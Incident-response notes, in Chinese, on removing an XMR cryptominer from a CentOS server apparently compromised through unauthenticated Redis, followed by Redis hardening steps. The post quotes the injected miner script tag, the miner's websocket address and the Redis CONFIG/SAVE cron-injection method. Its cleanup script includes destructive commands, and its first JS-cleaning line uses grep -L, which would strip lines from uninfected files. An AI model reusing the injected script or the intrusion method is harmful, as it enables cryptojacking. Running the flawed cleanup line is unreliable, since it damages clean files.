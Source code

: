 #+TITLE:  XMR 恶意挖矿脚本处理笔记 
#+AUTHOR:    zrg
#+EMAIL:     zrg1390556487@gmail.com
#+LANGUAGE:  cn
#+OPTIONS:   H:3 num:t toc:nil \n:nil @:t ::t |:t ^:nil -:t f:t *:t <:t
#+OPTIONS:   TeX:t LaTeX:t skip:nil d:nil todo:t pri:nil tags:not-in-toc
#+INFOJS_OPT: view:plain toc:t ltoc:t mouse:underline buttons:0 path:http://cs3.swfc.edu.cn/~20121156044/.org-info.js />
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://cs3.swfu.edu.cn/~20121156044/.org-manual.css" />
#+EXPORT_SELECT_TAGS: export
#+HTML_HEAD_EXTRA: <style>body {font-size:14pt} code {font-weight:bold;font-size:12px; color:darkblue}</style>
#+EXPORT_EXCLUDE_TAGS: noexport
#+LINK_UP:   
#+LINK_HOME: 
#+XSLT: 

#+STARTUP: showall indent
#+STARTUP: hidestars
#+BEGIN_EXPORT HTML
---
layout: post
title: XMR 恶意挖矿脚本处理笔记
author: zrg
description:   
excerpt: 
comments: false
categories: 
- Linux
tags:
- 恶意挖矿
- 病毒
---
#+END_EXPORT

# (setq org-export-html-use-infojs nil)
感谢您阅读此文，如果您发现任何错误，请发邮件至 zrg1390556487@gmail.com，谢谢！
# (setq org-export-html-style nil)

* 事件描述
** 概况
: 服务器安装系统为 CentOS 7，服务器用户一直采用密钥登录，通过用户登入攻击的可能性几乎为零。
: 服务器上所有站点使用宝塔面板面板管理，所以可能性是通过攻破了宝塔面板进入，然后注入恶意挖矿脚本的。
: 网站无法加载，会出现浏览器卡死的情况。
** 表象
: 下面陈述被攻击后的表象：
+ 服务器资源被大量占用，资源占用率飙升；
+ 服务器所有JS文件被篡改，向输出页面增加了一个script标签（document.write('<script src="http://t.cn/EvlonFh"></script><script>OMINEId("e02cf4ce91284dab9bc3fc4cc2a65e28","-1")</script>');）
+ 网站无法加载，会出现浏览器卡死的情况
* 问题排查及解决
** 排查
: 1. 访问服务器上运行的站点（包括宝塔面板），F12，发现不停访问一个wss的地址（wss://xmr.omine.org:8181/），并且很慢。
: 2. 搜索这个地址，得知此为 XMR 恶意挖矿脚本。
: 3. 查看系统任务计划，发现定期恶意脚本的计划内容
: # crontab -l
: 4. 由于redis没有安全配置，黑客利用redis安全漏洞入侵了服务器。
: 攻击者通过redis命令 config set与save完成入侵过程.使用redis-cli -h <ip> <port> 登录服务redis-server，
: 将redis的数据文件改到/var/spool/cron/root文件中，再通save 命令将定时任务shell脚本写入到/var/spool/cron/root 中，
: 完成定时执行shell脚本，来实现提权及其它操作。
** 解决
: 1. 整理清理脚本
#+NAME: 清理脚本
#+BEGIN_SRC shell
# 先关掉redis端口
iptables -A INPUT -p tcp --dport 6379 -j DROP
# 清理定时任务
crontab -r
# 清除redis key Back1 Back3 Back3
redis-cli -h xxx.xxx.xxx.xxx -x del Back1
redis-cli -h xxx.xxx.xxx.xxx -x del Back2
redis-cli -h xxx.xxx.xxx.xxx -x del Back3
redis-cli -h xxx.xxx.xxx.xxx -x CONFIG SET dbfilename dump.rdb
redis-cli -h xxx.xxx.xxx.xxx -x CONFIG SET dir /tmp
redis-cli -h xxx.xxx.xxx.xxx -x save
# 清理运行脚本
kill -9 `ps -ef|grep shz.sh|grep -v grep|awk '{print $2}'`
kill -9 `ps -ef|grep zigw|grep -v grep|awk '{print $2}'`
kill -9 `ps -ef|grep cmd|grep -v grep|awk '{print $2}'`
chattr -i /etc/zigw
chattr -i /etc/shz.sh
chattr -i /tmp/zigw
chattr -i /tmp/shz.sh
rm -rf /etc/shz.sh
rm -rf /etc/gmbpr2
rm -rf /etc/zigw
rm -rf /tmp/zigw
rm -rf /tmp/shz.sh
rm -rf ~/.cmd
 
# 清理SSH免登录信息
cat /dev/null> ~/.ssh/authorized_keys
# 清理js脚本
find / -name '*.js'|xargs grep -L f4ce9|xargs sed -i '$d'
mv /usr/bin/get /usr/bin/wget
mv /usr/bin/url /usr/bin/curl
#+END_SRC

#+NAME: 附个清理的其它方式脚本
#+BEGIN_SRC shell
#!/bin/bash
# By xzeu
# http://www.xzeu.com
# Email: admin#xzeu.com
# Filename: clearlink.sh
 
#Begin
find / -type f -name '*.js' |xargs fgrep -s -l "e02cf4ce91284dab9bc3fc4cc2a65e28"|xargs ls -l |awk '{print $9}'>jsfile.txt
for file in `cat ~/jsfile.txt`;
do
  echo $file
  # sed -i '/e02cf4ce91284dab9bc3fc4cc2a65e28/d' $file
  # cp $file ${file}.bad
done
 
exit 0
#END
#+END_SRC

: 2. 限制内网访问，或者只限制本机访问
: 只监听内网的IP，然后在iptables里面限制访问的主机：在/etc/redis/redis.conf中配置如下：
: bind 192.168.1.100
: 如果服务只需要本机访问就直接监听127.0.0.1的回环地址就可以了。

: 3. 设置防火墙
: 如果需要其他机器访问，或者设置了slave模式，那就记得加上相应的防火墙设置，命令如下：
: iptables -A INPUT -s 192.168.1.100/32 -p tcp --dport 6379 -j ACCEPT

: 4. 禁止root用户启动redis
: 使用root权限去运行网络服务是比较有风险的（nginx和apache都是有独立的work用户，而redis没有）。
: edis crackit 漏洞就是利用root用户的权限来替换或者增加authorized_keys，来获取root登录权限的。
: 使用root切换到redis用户启动服务:
: useradd -s /sbin/nolog -M redissetsid sudo -u redis /usr/bin/redis-server /etc/redis/redis.conf

: 5. 限制redis文件目录访问权限
: 设置redis的主目录权限为700,如果redis配置文件独立于redis主目录,权限修过为600,因为redis密码明文存储在配置文件中。

: 6. 避免使用熟知的端口,降低被初级扫描的风险
: 在/etc/redis/redis.conf中配置如下：
: 找到port 6379这行，把6379改为9999，记得iptables对应的端口要修改

: 7. 开启redis密码认证,并设置高复杂度密码
: redis在redis.conf配置文件中，设置配置项requirepass， 开户密码认证。
: redis因查询效率高，auth这种命令每秒能处理10w次以上，简单的redis的密码极容易为攻击者暴破。 

: 8. 禁用或者重命名危险命令
: edis crackit漏洞就利用config/save两个命令完成攻击 。 因redis无用户权限限制，建议危险的命令，
: 使用rename配置项进行禁用或重命名，这样外部不了解重命名规则攻击者，就不能执行这类命令。涉及到的命令：
: FLUSHDB, FLUSHALL, KEYS, PEXPIRE, DEL, CONFIG, SHUTDOWN, BGREWRITEAOF, BGSAVE, SAVE, SPOP, SREM, RENAME, DEBUG, EVAL`
: 以下示例：redis.config文件禁用FLUSHDB、FLUSHALL两个命令；重命名CONFIG、SHUTDOWN命令，添加一个特殊的后缀。
: 这样redis启动后，只能运行CONFIG_b9fc8327c4dee7命令，不能执行CONFIG命令。
: rename-command CONFIG CONFIG_des327c4dee7dfsf
: rename-command SHUTDOWN SHUTDOWN_des327c4dee7dfsf
: rename-command FLUSHDB ""
: rename-command FLUSHALL ""
: 上述配置将config，flushdb，flushall设置为了空，即禁用该命令，我们也可以命名为一些攻击者难以猜测，
: 我们自己却容易记住的的名字。保存之后，执行/etc/init.d/redis-server restart 重启生效。

: 9. 恢复服务器中的js文件(其中grep的参数为小写的L)
: 方法一：删除站点所有感染 js 文件，从代码仓库pull，重新上传部署。
: 方法二：# find / -name '*.js' | xargs grep -l f4ce9 | xargs sed -i '/f4ce9/d'
* 参考
+ [[https://www.cnblogs.com/Rebybyx/p/9913779.html][XMR恶意挖矿脚本处理笔记]]
+ [[https://www.freebuf.com/articles/system/186743.html][XMR恶意挖矿案例简析]]
+ [[https://www.xzeu.com/index.php/archives/120/][Redis未授权访问缺陷,服务器变矿机]]
